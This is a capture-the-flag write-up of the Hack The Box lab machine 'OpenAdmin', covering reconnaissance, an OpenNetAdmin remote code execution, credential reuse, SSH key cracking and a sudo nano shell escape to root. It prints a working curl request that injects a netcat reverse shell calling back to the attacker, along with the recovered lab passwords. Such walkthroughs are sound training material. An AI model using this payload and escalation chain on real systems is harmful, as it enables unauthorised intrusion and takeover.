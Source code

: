 ```yaml
---
title: OpenAdmin
tags: linux
---
```


![image](assets/83579642-d2e81280-a507-11ea-80f3-62eaf5fec9b8.png)

## Overview

OpenAdmin is an Ubuntu box running an apache webserver. It hosts various example sites and OpenNetAdmin that was vulnerable to an unauthenticated remote code execution which I used to create a reverse shell to get initial foothold. Some enumeration of the /var/www folder revealed a password which was used to ssh into the target as the user jimmy. I discovered a webserver that was only accessible internally that was hosting files out of /var/www/internal. This folder contained a php file with a hardcoded password hash which I able to easily lookup with an internet search. I created a local port forward to my box where I was able to access the website and log in. The page displayed an encrypted rsa private key which I cracked with john the ripper to gain the password. With the private key I successfully logged in with joanna who was able to run sudo with no password, due to a vulnerability in nano I was able escalate my privileges to root.

## Enumeration

**Software**

* Ubuntu 18.04.3 LTS 
* OpenNetAdmin v18.1.1

**Port Scan**

```
nmap -sT -p- -v -Pn 10.10.10.171 -oN /home/kali/boxes/openadmin
```

* 22/tcp - ssh
* 80/tcp - http - /ona, OneNetAdmin v18.1.1

**Directory/File Scan**

```
gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html -t 40
```

* /music
* /index.html
* /artwork
* /sierra
* /server-status
* /ona (found manually)

## Steps (user)

Browsing to http://10.10.10.171 shows the default Apache2 page. 

![image](assets/83579855-66214800-a508-11ea-9174-e778ec66c80c.png)

After manually reveiwing the results from the gobuster scan it looked this box was hosting various example webpages. Clicking Login on http://10.10.10.171/music redirected me to http://10.10.10.171/ona which brought me to an OpenNetAdmin page.

![image](assets/83583694-08dec400-a513-11ea-9e3f-e30e9f0dd3fa.png)

I did an internet search and found that the default credentials for OpenNetAdmin were admin:admin. I tried those on the target and successfully logged in as the admin account. Once logged in I went to menu | ona | about and noted the version.

![image](assets/83583779-43e0f780-a513-11ea-9da7-9916acdaa2e1.png)

Doing a search in searchsploit for opennetadmin showed 3 results, two of these were for the same version as the target v18.1.1, and one was metasploit so I went with 47691.

![image](assets/83583592-bdc4b100-a512-11ea-8f6b-f2bd72e27176.png)

Reviewing the exploit shows a pretty simple command shell uring curl to send a post request.

```
searchsploit -x 47691
```

![image](assets/83583960-c36ec680-a513-11ea-80a9-d11d2a0183c7.png)

The exploit creates a cmd shell but it's pretty limiting so I copied the string from the exploit and in between **ip%3D%#E** and **&xajaxargs[]=ping"** I added a bash command that creates a reverse shell (url encoded). I started up a netcat listner on my box (nc -lvnp 4200) and ran the command.

```
curl -S -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;rm+/tmp/z%3bmkfifo+/tmp/z%3bcat+/tmp/z|/bin/sh+-i+2>%261|nc+10.10.14.26+4200+>/tmp/z&xajaxargs[]=ping" "http://10.10
.10.171/ona/"
```

I received a callback and shell as www-data

![image](assets/83585455-e56a4800-a517-11ea-8736-913c2429eaad.png)

After doing some enumeration of the /var/www/ona directory I came across some credentials in a file called database_settings.inc.php in the /var/www/ona/local/config folder - **ona_sys:n1nj4W4rri0R!**

```
<?php                   
$ona_contexts=array (   
  'DEFAULT' =>          
  array (               
    'databases' =>      
    array (             
      0 =>              
      array (           
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),                
    ),                  
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),                    
);          
```
I wasn't able to log into mysql but I was able to login via ssh as jimmy using the n1nj4W4rri0R! password.

> Note: The user flag was not present for this user

In the /var/www/ I found a folder called "internal" that was owned by Jimmy. This folder contained a file called main.php which had some php code that compared the password against a password hash for authentication. 

![image](assets/83586702-2e6fcb80-a51b-11ea-839d-ccf2de14f381.png)

I did an internet search for the hash and found a [site](https://md5hashing.net) that had hashed it already - **Revealed**

![image](assets/83586919-b3f37b80-a51b-11ea-91b0-059ce2595766.png)

Running netstat showed that the target was listening on an odd port 52846 via the loopback address.

![image](assets/83587360-ebaef300-a51c-11ea-8bc6-98b76ae4b9fc.png)

I ran a GET request with curl and confirmed that it was a web server.

```
curl --head http://127.0.0.1:52846
```

![image](assets/83587761-d5edfd80-a51d-11ea-9491-df0fc650f440.png)


I created a local port forward so I could browse to the site from my box.

```
ssh jimmy@10.10.10.171 -p 22 -L52846:127.0.0.1:52846
```

I browsed to http://127.0.0.1:52846 and logged in with **jimmy:Revealed**

![image](assets/83587885-1d748980-a51e-11ea-94de-339d9429dd97.png)

After logging in an encrypted RSA private key is displayed on the page along with the text "Don't forget your 'ninja' password"

![image](assets/83588035-83611100-a51e-11ea-8436-391b09cc22f6.png)

I copied the private key and converted it to John format 

```
/usr/share/john/ssh2john.py id_rsa_enc  > id_rsa_crack
```

I used John the Ripper and the rockyou wordlist to crack the password and was successful, the password was **bloodninjas**

```
john id_rsa_crack --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](assets/83588536-a50ec800-a51f-11ea-9879-1262a8ea8dbf.png)

I removed the password from id_rsa_enc using the following command, specifying bloodninjas as the password.

```
openssl rsa -in id_esa_enc -out id_rsa
```

![image](assets/83588645-d8515700-a51f-11ea-8dd1-0d7d8dada3aa.png)

I set the appropriate permissions on id_rsa (chmod 600 id_rsa) and was able to log in to with the account "joanna"

```
ssh -i id_rsa joanna@10.10.10.171
```

![image](assets/83588782-1cdcf280-a520-11ea-85a5-4020969d3930.png)

## Steps (root/system)

One of the first things I do is run sudo -l which lists the allowed commands for the user. The output of this command showed that joanna can use nano to open a specific file, /opt/priv with no password.

> [sudo](https://linux.die.net/man/8/sudo) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy.

![image](assets/83588916-6a595f80-a520-11ea-8ebd-509fcfe79193.png)

Looking up nano on [GTFOBins](https://gtfobins.github.io/) shows that there is a shell escape for nano.

![image](assets/83589174-156a1900-a521-11ea-9c28-0a5f3c3abd37.png)

```
^R^X then reset; sh 1>&0 2>&0
```

Running 'sudo /bin/nano /opt/priv' and the sequence of commands provided by GTFOBins gave me a root shell.

![image](assets/83589266-4b0f0200-a521-11ea-9aa6-0942ea74a2ca.png)



